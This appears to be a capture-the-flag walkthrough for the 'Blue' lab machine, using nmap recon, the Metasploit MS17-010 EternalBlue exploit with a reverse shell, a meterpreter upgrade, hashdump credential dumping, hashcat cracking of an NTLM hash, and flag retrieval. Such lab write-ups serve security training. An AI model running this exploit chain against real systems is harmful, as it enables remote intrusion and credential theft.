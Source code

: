 
# 🏆 CTF Walkthrough: BLUE

## Table of Contents:
1. [Recon 🔍](#recon)
   - How many ports are open with a port number under 1000?
   - What is this machine vulnerable to?
2. [Gain Access 💻](#gain-access)
   - Exploitation Code Path
   - Setting Required Options
3. [Escalate 🚀](#escalate)
   - Convert Shell to Meterpreter
   - Migrate to New Process
4. [Cracking 🔓](#cracking)
   - Dumping Passwords
   - Cracking NTLM Hash
5. [Find Flags! 🎯](#find-flags)
   - Flag1
   - Flag2
   - Flag3

---

## Recon 🔍

### 1. How many ports are open with a port number under 1000? (Active Enumeration)
Run the following `nmap` scan:
```bash
nmap -Pn -A -sV 10.10.165.189
```

The open ports below 1000 are:

- **135/tcp** - Microsoft Windows RPC
- **139/tcp** - Microsoft Windows netbios-ssn
- **445/tcp** - Microsoft Windows SMB

Thus, there are **3** services running:
1. **msrpc** 🔐
2. **netbios-ssn** 🌐
3. **microsoft-ds** 🖥️

### 2. What is this machine vulnerable to? 🚨
The machine is vulnerable to **MS17-010**, which exploits a vulnerability in the SMB protocol known as **EternalBlue**.

---

## Gain Access 💻

### 1. Find the exploitation code we will run against the machine. What is the full path of the code?
Use `msfconsole` to search for **MS17-010**:
```bash
msf6 > search ms17-010
```

This will show the following relevant exploit:
```
exploit/windows/smb/ms17_010_eternalblue
```

### 2. Set up the exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set LHOST tun0
set RHOSTS 10.10.165.189
exploit
```

### 3. Show options and set the one required value. What is the name of this value?
The required option is **RHOSTS**, which is the target machine's IP address.

---

## Escalate 🚀

### 1. If you haven't already, background the previously gained shell:
```bash
ctrl + Z
```

### 2. Convert the shell to a meterpreter shell:
Search for the post module to upgrade the shell:
```bash
search shell_to
use post/multi/manage/shell_to_meterpreter
```

### 3. Set the required option and exploit:
```bash
show options
set SESSION 1
exploit
```

### 4. Migrate to another process:
Use the `migrate` command to stabilize the session:
```bash
ps
migrate <PROCESS_ID>
```

This will help ensure the session is moved to a more stable process. 🛠️

---

## Cracking 🔓

### 1. Dump password hashes with `hashdump`:
```bash
hashdump
```

The non-default user is **Jon**.

### 2. Crack the NTLM hash:
The NTLM hash is:
```
aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Use **hashcat** to crack the hash:
```bash
echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt
hashcat -m 1000 -a 0 hash.txt /path/to/wordlist.txt
```

The cracked password is: **alqfna22** 🔑

---

## Find Flags! 🎯

### 1. **Flag1**: Located at the system root.
```bash
cd C://
dir
type flag1.txt
```
Flag1 content: **flag{access_the_machine}** 💡

### 2. **Flag3**: Located in the Administrator's Documents folder.
```bash
cd Users/Jon/Documents
type flag3.txt
```
Flag3 content: **flag{admin_documents_can_be_valuable}** 📂

### 3. **Flag2**: Located in `System32/config`.
```bash
cd C:\Windows\System32\config
dir
type flag2.txt
```
Flag2 content: **flag{sam_database_elevated_access}** 🔒

---

## Conclusion 🏁

This walkthrough guides you through exploiting the **MS17-010 EternalBlue** vulnerability to gain access to a Windows machine, escalate privileges, dump passwords, crack hashes, and locate flags on the system. With persistence and the correct tools, lateral movement and privilege escalation are key to successfully solving the challenge. 🎉

---

📌 Created by c1ph3r1337 🕶️🔥
